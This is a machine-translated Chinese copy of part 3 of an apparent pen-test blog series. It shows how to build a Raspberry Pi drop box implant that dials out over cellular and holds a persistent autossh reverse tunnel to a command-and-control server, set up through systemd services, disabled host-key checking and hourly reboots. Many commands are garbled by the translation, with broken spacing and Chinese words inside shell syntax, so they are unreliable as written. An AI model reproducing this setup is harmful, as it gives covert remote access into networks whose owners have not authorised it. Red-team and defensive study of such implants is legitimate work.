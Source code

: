 # 第 3 部分:最终的笔测试投件箱演练—添加一个单元格反向链接

> 原文：<https://infosecwriteups.com/part-3-pen-test-dropbox-adding-a-cellar-backlink-8c8d5cfde667?source=collection_archive---------1----------------------->

# 为蜂窝卡安装所需的依赖项

安装依赖项的命令:

> apt-get 安装 kali**pi**-kernel-header

> curl-L--output/usr/bin/rpi-update[https://raw . githubusercontent . com/hex xeh/rpi-update/master/rpi-update](https://raw.githubusercontent.com/Hexxeh/rpi-update/master/rpi-update)&&sudo chmod+x/usr/bin/rpi-update

忽略警告，键入“y”接受安装/更新。

# 向 Twilio 注册您的蜂窝卡

点击[此处](https://www.twilio.com/console)并设置您的卡(或按照 SIM 卡附带的说明操作)

> wget[https://raw . githubusercontent . com/six fab/six fab _ RPi _ 3G-4G-LTE _ Base _ Shield/master/tutorials/QMI _ tutorial/qmi _ install . sh](https://raw.githubusercontent.com/sixfab/Sixfab_RPi_3G-4G-LTE_Base_Shield/master/tutorials/QMI_tutorial/qmi_install.sh)&&sudo chmod 755 qmi _ install . sh

> vim qmi_install.sh(更改所有文件目录以匹配您所拥有的，因为文件路径是硬编码的)

> wget[https://raw . githubusercontent . com/six fab/six fab _ RPi _ 3G-4G-LTE _ Base _ Shield/master/tutorials/QMI _ tutorial/install _ auto _ connect . sh](https://raw.githubusercontent.com/sixfab/Sixfab_RPi_3G-4G-LTE_Base_Shield/master/tutorials/QMI_tutorial/install_auto_connect.sh)

sudo chmod+x install _ auto _ connect . sh

> install_auto_connect.sh(完成后需要重新启动)

> CD/home/[您的用户名]/files/quectel-CM

>./克特尔-CM-s wireless.twilio.com

>重新启动

> vim /usr/src/qmi_reconnect.sh

> sudo systemctl 状态 qmi_reconnect.service

> sudo 重启

# 设置 RDP 访问权限(如果您愿意的话)

> apt install-y xrdp tigervnc-standalone-server

> systemctl 使能 xrdp

> systemctl 重启 xrdp

> systemctl 启用 xrdp-sesman.service

# 在 PI 上设置自动 SSH 回调

从 Pi 生成一个新的 SSH 密钥对。

> ssh-keygen

然后将您的密钥复制到 CnC 服务器。

> ssh-copy-id-I/path/to/your/public/key-p 22 lessprivuser @ CnC _ Server _ IP

安装自动清洗。

> apt 安装自动清洗

创建一个运行 autossh 命令的服务来构建反向 shell。

> vim/etc/systemd/system/r tunnel . service

输入以下所有内容并编辑 CNC_Server_IP:

*【单位】*

*描述= AutoSSH 反向隧道*

*After=routes.service*

*【服务】*

*Environment = " autosh _ gate time = 0 "*

*ExecStartPre =/bin/sleep 30*

*ExecStart =/usr/bin/autos sh-m0-N-o " ServerAliveInterval 60 "-o " ServerAliveCountMax 3 "-o stricthostkey checking = false-o " connect time out 10 "-o " exitonfordfailure yes "-R 2222:localhost:22[****lessprigledgeduser****@****CnC _ Server _ IP****]*

*重启=开-故障*

*重启秒=5s*

*【安装】*

多用户目标

为您的 PI 创建一个路由，以构建一个到 CnC 服务器的 SSH。

vim/etc/systemd/system/routes . service

*【单位】*

*描述=持续路线*

*After=twilio.service*

*【服务】*

*ExecStartPre =/bin/sleep 20*

*ExecStart =/sbin/route add-net[****YOUR _ CnC _ Server _ IP****]net mask 255 . 255 . 255 . 255 . dev wwan 0*

*【安装】*

*wanted by =多用户.目标*

创建一个在启动时运行以激活手机网络连接的服务。

> vim/etc/systemd/system/twilio . service

*【单位】*

*描述=蜂窝互联网 z*

*【服务】*

*ExecStart =/home/[用户名]/files/que ctel-CM/que ctel-CM-s internet；udpcpc -i wwan0*

*【安装】*

*wanted by = multi-user . target*

# 可选预防措施

为了防止 SSH 挂起妨碍将来的连接，您需要设置一个 cron 作业，每小时(或者您觉得合适的任何时间间隔)重新启动投件箱。

> crontab -e

> */60 * * * * root 关机-r

![](img/579571db3a4277598cc7a07b396f061e.png)

Crontab 条目

# 轻松跳到投件箱

> ssh[用户]@[数控地址]

![](img/8d545223c581e5497ca2d4085dd564ac.png)

> ssh[user]@ localhost-p[PORT _ IMPLANT _ CONNECTED _ TO _ CNC _ ON]

![](img/e2068a860ebb0f8cc403e37bf5600c3d.png)

# 植入物/接线盒的最终接口

![](img/90c2e504fa186e451246cf4be015977b.png)

最终网络接口

返回到:
第 1 部分:[构建一个基于云的命令和控制服务器，并用蜂窝反向链接攻击投件箱](https://killbit.medium.com/part-1-build-a-cloud-based-command-and-control-server-and-attack-drop-box-with-a-cellular-b3e9e063dedd)

第 2 部分:[构建笔测试下拉框](https://killbit.medium.com/part-2-build-the-pen-test-drop-box-69278526886a)

如果你喜欢我的内容和我在这里提供的工作，请考虑发送一些咖啡爱我的方式@[https://www.buymeacoffee.com/killbit](https://www.buymeacoffee.com/killbit)

你友好的邻居黑客，

杀手
